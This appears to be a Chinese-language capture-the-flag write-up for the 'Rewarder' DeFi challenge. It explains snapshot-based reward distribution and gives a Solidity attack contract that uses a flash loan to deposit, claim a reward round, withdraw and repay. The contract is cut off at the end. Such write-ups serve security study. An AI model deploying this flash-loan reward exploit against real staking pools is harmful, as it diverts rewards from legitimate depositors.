 <hr />

# 5.The Rewarder

解决思路：

首先要弄明白，这个快照的是如何实现的。

`AccountingToken`的介绍是`A limited pseudo-ERC20 token to keep track of deposits and withdrawals with snapshotting capabilities`，这是通过继承`ERC20Snapshot`实现的。

后者定义了一个结构

```solidity
    struct Snapshots {
        uint256[] ids;
        uint256[] values;
    }
```

并通过`    mapping(address => Snapshots) private _accountBalanceSnapshots;`去存储余额，在每次操作时，都会通过`_updateAccountSnapshot`和`_updateTotalSupplySnapshot`去更新对应快照id下的余额。

而这个又是如何触发分红的呢，为什么不直接按照余额来？

`TheRewarderPool`触发分红是通过`distributeRewards`进行（注意是在`mint`后进行），当满足`isNewRewardsRound`（可开展新一轮分红后），就根据余额进行分红。

我们的思路就是通过闪电贷，触发分红（要在相关时间后第一个发起交易），随后取出并归还。

我们需要手写合约，具体如下（为简便起见，不导入，直接用abi.encodeWithSignature）：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract HackerRewarder {

    using Address for address;


    address pool;
    address flashLoan;
    address token;
    address reward;
    address owner;

    constructor(address _pool,address _flashLoan, address _token, address _reward ) {
        pool = _pool;
        flashLoan = _flashLoan;
        token = _token;
        reward = _reward;
        owner = msg.sender;
    }

    function attack(uint amount) external {
        flashLoan.functionCall(abi.encodeWithSignature("flashLoan(uint256)", amount));
    }

    function receiveFlashLoan(uint256 amount) external {
        token.functionCall(abi.encodeWithSignature("approve(address,uint256)",pool,amount));
        pool.functionCall(abi.encodeWithSignature("deposit(uint256)", amount));
        pool.functionCall(abi.encodeWithSignature("withdraw(uint256)", amount));
        token.functionCall(abi.encodeWithSignature("transfer(address,uint256)",flashLoan,amount));
        reward.functionCall(abi.encodeWithSignature("approve(address,uint256)",owner,100 ether));
    }
```